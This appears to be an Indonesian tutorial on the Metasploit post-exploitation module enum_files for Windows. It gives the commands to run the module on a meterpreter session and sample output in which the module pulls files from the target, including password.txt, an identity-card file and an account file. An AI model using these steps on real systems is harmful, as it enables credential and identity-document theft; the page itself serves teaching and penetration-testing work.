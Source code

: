 # enum_files

Module `enum_files` di Metasploit adalah modul `post-exploitation `untuk sistem Windows yang digunakan untuk mencari dan mengumpulkan daftar file berdasarkan ekstensi tertentu seperti `.pdf`, `.docx`, `.txt`, dan `lainnya` dari komputer target. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (misalnya via meterpreter) dan memindai direktori yang ditentukan secara rekursif untuk menemukan file-file penting yang berpotensi sensitif, sehingga berguna dalam proses pengumpulan informasi lebih lanjut setelah eksploitasi berhasil dilakukan.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/enum_files
set FILE_GLOBS *.txt
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Searching C:\Users\ through windows user profile structure
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3\windows_7_8_81_32_64bit_1027.3\Release notes\ISS_Release.txt
[+] ISS_Release.txt saved as: /root/.msf4/loot/20250516123106_default_192.168.1.52_host.files_316311.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3\windows_7_8_81_32_64bit_1027.3\Release notes\Release_RTWlanU.txt
[+] Release_RTWlanU.txt saved as: /root/.msf4/loot/20250516123106_default_192.168.1.52_host.files_362125.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3\windows_7_8_81_32_64bit_1027.3\Release notes\Utility_Release.txt
[+] Utility_Release.txt saved as: /root/.msf4/loot/20250516123107_default_192.168.1.52_host.files_713887.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3(1)\windows_7_8_81_32_64bit_1027.3\Release notes\ISS_Release.txt
[+] ISS_Release.txt saved as: /root/.msf4/loot/20250516123107_default_192.168.1.52_host.files_313018.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3(1)\windows_7_8_81_32_64bit_1027.3\Release notes\Release_RTWlanU.txt
[+] Release_RTWlanU.txt saved as: /root/.msf4/loot/20250516123107_default_192.168.1.52_host.files_663615.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3(1)\windows_7_8_81_32_64bit_1027.3\Release notes\Utility_Release.txt
[+] Utility_Release.txt saved as: /root/.msf4/loot/20250516123108_default_192.168.1.52_host.files_218646.txt
[*] Downloading C:\Users\admin\Desktop\password.txt
[+] password.txt saved as: /root/.msf4/loot/20250516123108_default_192.168.1.52_host.files_562665.txt
[*] Downloading C:\Users\admin\Desktop\KTP SAYA.txt
[+] KTP SAYA.txt saved as: /root/.msf4/loot/20250516123108_default_192.168.1.52_host.files_967686.txt
[*] Downloading C:\Users\admin\Desktop\AKUN PB.txt
[+] AKUN PB.txt saved as: /root/.msf4/loot/20250516123109_default_192.168.1.52_host.files_165012.txt
[*] Done!
[*] Post module execution completed
```
